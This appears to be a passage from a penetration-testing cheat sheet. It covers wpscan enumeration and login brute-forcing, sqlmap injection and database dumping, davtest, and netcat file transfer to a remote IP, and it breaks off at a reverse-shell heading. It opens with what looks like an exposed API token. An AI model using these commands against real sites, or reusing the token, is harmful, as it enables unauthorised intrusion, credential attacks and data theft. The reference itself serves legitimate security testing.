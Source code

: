 	- --api-token
	- Wdicn0ZzE456gH89CwNsFmsKLsCWAFEjw7yHlUiEMdE
- <mark>Basic Scan</mark>
```bash
wpscan --url [TARGET_URL]
```
- <mark>Aggressive Vulnerable Plugins Enumeration</mark>
```bash
wpscan --url [TARGET_URL] --enumerate vp --plugins-detection aggressive
```
- <mark>Themes Enumeration</mark>
```bash
wpscan --url [TARGET_URL] -e t
```
- <mark>Users Enumeration</mark>
```bash
wpscan --url [TARGET_URL] -e u
```
- <mark>Login Brute-Forcing</mark>
```bash
wpscan --url [TARGET_Login_URL] --passwords [PASSWORD_LIST] --usernames [USERNAME_LIST]
```
### sqlmap
- <mark>Basic Scan</mark>
```bash
#GET Request
sqlmap -u "http://[url]/file.php?id=1" -p id
#POST Request
sqlmap -u "http://[url]/login.php" --data="user=admin&password=admin"
sq```
- <mark>Data Retrieval</mark>
```bash
#Get databases
sqlmap -u [TARGET_URL] --dbs
#Get tables of a database
sqlmap -u [TARGET_URL] -D [DATABASE_NAME] --tables
#Get columns of a table
sqlmap -u [TARGET_URL] -D [DATABASE_NAME] -T [TABLE_NAME] --columns
#Dump entries of a table
sqlmap -u [TARGET_URL] -D [DATABASE_NAME] -T [TABLE_NAME] --dump
```
### davtest
- <mark>Basic Scan</mark>
```bash
davtest -url http://[target_URL] -cleanup
```
# General-Utilities
## File Transfer
### netcat(nc)
- <mark>File Transfer</mark>
```bash
#Receiver
nc -lnvp [port number] > [file]
#Sender
nc [IP address] [port number] < [file]
```
- <mark>Banner Grabbing</mark>
```bash
nc -nv [IP address] [port number]
```
- <mark>Bind/Reverse Shells</mark>
```bash
#Bind
```